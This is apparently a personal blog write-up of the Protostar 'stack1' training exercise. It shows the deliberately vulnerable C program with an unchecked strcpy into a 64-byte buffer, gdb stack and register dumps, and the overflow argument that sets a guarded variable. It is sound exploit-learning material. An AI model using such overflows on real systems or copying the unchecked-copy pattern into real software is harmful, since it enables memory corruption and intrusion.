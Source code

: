 ```yaml
---
layout: post
title:  "Protostar Stack1"
date:   2023-03-15 09:00:00 +1100
categories: Journey
tags: 
---
```


However ineloquent, I simple brute forced this one.

Code:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

I simple need to find a way to force an area in the stack, where currently exist `0x00000000` (default output) to equal `0x61626364`. As the stack runs bottom up, we need to insert the values `0x64636261` what are `dcba` in ascii. 

```python
>>> chr(0x64)
'd'
>>> chr(0x63)
'c'
>>> chr(0x62)
'b'
>>> chr(0x61)
'a'
```

I added breakpoints to the `call   0x8048368 <strcpy@plt>` and `mov    eax,DWORD PTR [esp+0x5c]` lines, so that I can see the stack pre input, post input and pre comparison.

When run with `set args dcba` we can see a few things:
```bash
0xbffff760:     0xbffff77c      0xbffff9a4      0xb7fff8f8      0xb7f0186e
0xbffff770:     0xb7fd7ff4      0xb7ec6165      0xbffff788      0x61626364
0xbffff780:     0xb7fd7f00      0x080496fc      0xbffff798      0x08048334
0xbffff790:     0xb7ff1040      0x080496fc      0xbffff7c8      0x08048509
0xbffff7a0:     0xb7fd8304      0xb7fd7ff4      0x080484f0      0xbffff7c8
0xbffff7b0:     0xb7ec6365      0xb7ff1040      0x080484fb      0x00000000
0xbffff7c0:     0x080484f0      0x00000000      0xbffff848      0xb7eadc76
0xbffff7d0:     0x00000002      0xbffff874      0xbffff880      0xb7fe1848
0xbffff7e0:     0xbffff830      0xffffffff      0xb7ffeff4      0x08048281
0xbffff7f0:     0x00000001      0xbffff830      0xb7ff0626      0xb7fffab0
0xbffff800:     0xb7fe1b28      0xb7fd7ff4      0x00000000      0x00000000
0xbffff810:     0xbffff848      0x23a0868e      0x09f7509e      0x00000000
```

In the second line we see `0x61626364` and we see two lines with `0x00000000` within them, i assume to be the targets to buffer overflow into. I overflowed the stack right up to the first `0x00000000` on line `0xbffff7b0` and voila, we have the desired output!
```bash
(gdb) set args dcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcba
(gdb) r
Starting program: /opt/protostar/bin/stack1 dcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcba
eax            0xbffff73c       -1073744068
ecx            0xe3ef9174       -470838924
edx            0x2      2
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff720       0xbffff720
ebp            0xbffff788       0xbffff788
esi            0x0      0
edi            0x0      0
eip            0x80484a2        0x80484a2 <main+62>
eflags         0x200282 [ SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
0xbffff720:     0xbffff73c      0xbffff964      0xb7fff8f8      0xb7f0186e
0xbffff730:     0xb7fd7ff4      0xb7ec6165      0xbffff748      0xb7eada75
0xbffff740:     0xb7fd7ff4      0x080496fc      0xbffff758      0x08048334
0xbffff750:     0xb7ff1040      0x080496fc      0xbffff788      0x08048509
0xbffff760:     0xb7fd8304      0xb7fd7ff4      0x080484f0      0xbffff788
0xbffff770:     0xb7ec6365      0xb7ff1040      0x080484fb      0x00000000
0xbffff780:     0x080484f0      0x00000000      0xbffff808      0xb7eadc76
0xbffff790:     0x00000002      0xbffff834      0xbffff840      0xb7fe1848
0xbffff7a0:     0xbffff7f0      0xffffffff      0xb7ffeff4      0x08048281
0xbffff7b0:     0x00000001      0xbffff7f0      0xb7ff0626      0xb7fffab0
0xbffff7c0:     0xb7fe1b28      0xb7fd7ff4      0x00000000      0x00000000
0xbffff7d0:     0xbffff808      0xc9b8c764      0xe3ef9174      0x00000000
0x80484a2 <main+62>:    call   0x8048368 <strcpy@plt>
0x80484a7 <main+67>:    mov    eax,DWORD PTR [esp+0x5c]

Breakpoint 1, 0x080484a2 in main (argc=2, argv=0xbffff834) at stack1/stack1.c:16
16      in stack1/stack1.c
(gdb) c
Continuing.
eax            0xbffff73c       -1073744068
ecx            0x0      0
edx            0x45     69
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff720       0xbffff720
ebp            0xbffff788       0xbffff788
esi            0x0      0
edi            0x0      0
eip            0x80484a7        0x80484a7 <main+67>
eflags         0x200246 [ PF ZF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
0xbffff720:     0xbffff73c      0xbffff964      0xb7fff8f8      0xb7f0186e
0xbffff730:     0xb7fd7ff4      0xb7ec6165      0xbffff748      0x61626364
0xbffff740:     0x61626364      0x61626364      0x61626364      0x61626364
0xbffff750:     0x61626364      0x61626364      0x61626364      0x61626364
0xbffff760:     0x61626364      0x61626364      0x61626364      0x61626364
0xbffff770:     0x61626364      0x61626364      0x61626364      0x61626364
0xbffff780:     0x08048400      0x00000000      0xbffff808      0xb7eadc76
0xbffff790:     0x00000002      0xbffff834      0xbffff840      0xb7fe1848
0xbffff7a0:     0xbffff7f0      0xffffffff      0xb7ffeff4      0x08048281
0xbffff7b0:     0x00000001      0xbffff7f0      0xb7ff0626      0xb7fffab0
0xbffff7c0:     0xb7fe1b28      0xb7fd7ff4      0x00000000      0x00000000
0xbffff7d0:     0xbffff808      0xc9b8c764      0xe3ef9174      0x00000000
0x80484a7 <main+67>:    mov    eax,DWORD PTR [esp+0x5c]
0x80484ab <main+71>:    cmp    eax,0x61626364

Breakpoint 2, main (argc=2, argv=0xbffff834) at stack1/stack1.c:18
18      in stack1/stack1.c
(gdb) c
Continuing.
you have correctly got the variable to the right value
```

We can also simplify this into a single line with below:
```bash
user@protostar:/tmp$ /opt/protostar/bin/stack1 dcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcba
you have correctly got the variable to the right value
```

You can see this in action if you run this without 1 or 2 values:
```bash
user@protostar:/tmp$ /opt/protostar/bin/stack1 dcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadc
Try again, you got 0x00006364
```